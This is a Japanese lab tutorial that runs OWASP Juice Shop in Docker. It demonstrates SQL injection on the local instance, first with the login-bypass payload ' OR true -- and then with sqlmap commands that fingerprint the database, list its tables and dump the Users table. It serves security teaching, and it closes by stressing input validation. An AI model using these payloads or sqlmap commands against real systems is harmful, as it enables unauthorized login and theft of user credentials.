

# SQLインジェクション

対策の重要性を知るために SQL インジェクションを経験してみましょう。  

## コンテナ起動

```bash
# mongodb ディレクトリへ移動
$ cd $WORKDIR/juiceshop

# コンテナ起動
$ docker-compose up -d --build

# コンテナ起動確認
$ docker-compose ps
NAME                     IMAGE                          COMMAND                   SERVICE      CREATED          STATUS          PORTS
juiceshop-juice-shop-1   bkimminich/juice-shop:latest   "/nodejs/bin/node /j…"   juice-shop   22 seconds ago   Up 21 seconds   0.0.0.0:13000->3000/tcp    # STATUS が Up であること、PORTS が 0.0.0.0:13000->3000/tcp であることを確認
juiceshop-python-1       juiceshop-python               "bash -c /bin/bash"       python       45 seconds ago   Up 45 seconds                             # STATUS が Up であること
```

## Juice Shop 実習

### ブラウザで SQL インジェクション

ブラウザで `http://localhost:13000/` を開きます。  

右上にある `Accout` → `Log in` をクリックします。  


まずは Email と Password を予想してログインを試してみましょう。  


闇雲に試してもログインできないと思います。  
それでは、SQL インジェクションを試してみましょう。  
Email 欄に以下を入力してログインしてください。Password は何でも良いです。  

```
' OR true --
```



ログインできましたね。  
データベースに対して以下の SQL 文が実行されました。   
`--` 以降はコメントアウトされるため、パスワードチェックが無視されました。  
Web アプリケーションからのいかなる入力に対して、必ずバリデーションを行いましょう。  

```sql
SELECT * FROM Users WHERE email = '' OR true --' AND password = '4124bc0a9335c27f086f24ba207a4912' AND deletedAt IS NULL"
```

### ツールで SQL インジェクション

世の中には SQL インジェクションを実行するツールがあります。  
有名な sqlmap を紹介します。  

```
# python コンテナ内部へ
$ docker-compose exec python bash
root@c1ea6879677a:/app#        # プロンプトが変わっていることを確認

# 初期攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --banner --level 2

# 省略した出力を示します。この Web アプリケーションのバックエンド DB は SQLite であることがわかります。
[08:58:46] [INFO] the back-end DBMS is SQLite
[08:58:46] [INFO] retrieved: 3.44.2
back-end DBMS: SQLite
banner: '3.44.2'


# テーブル一覧を取得する攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --tables

# 簡単にテーブル一覧が取得できました。  
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+


# Users テーブルはおそらくユーザー一覧でしょう。このテーブルの中身を見る攻撃を仕掛けます
root@c1ea6879677a:/app# python /app/sqlmap-1.8/sqlmap.py -u http://juice-shop:3000/rest/products/search?q= --random-agent --batch --dump -D SQLite_masterdb -T Users --threads 10
```

どうでしょうか。ユーザー一覧とパスワードが取得できたと思います。  
こうなれば機密情報は盗み放題です。  
SQL インジェクション対策の重要性を理解していただけたでしょうか。  


## コンテナ停止

```bash
# コンテナからログアウト
root@c1ea6879677a:/app# exit

# コンテナ停止
$ docker-compose down
[+] Running 3/3
✔ Container juiceshop-juice-shop-1  Removed
✔ Container juiceshop-python-1      Removed 
✔ Network juiceshop_default         Removed

$ docker-compose ps
NAME      IMAGE     COMMAND   SERVICE   CREATED   STATUS    PORTS
# 結果がないことを確認
```

## 参考

[OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)

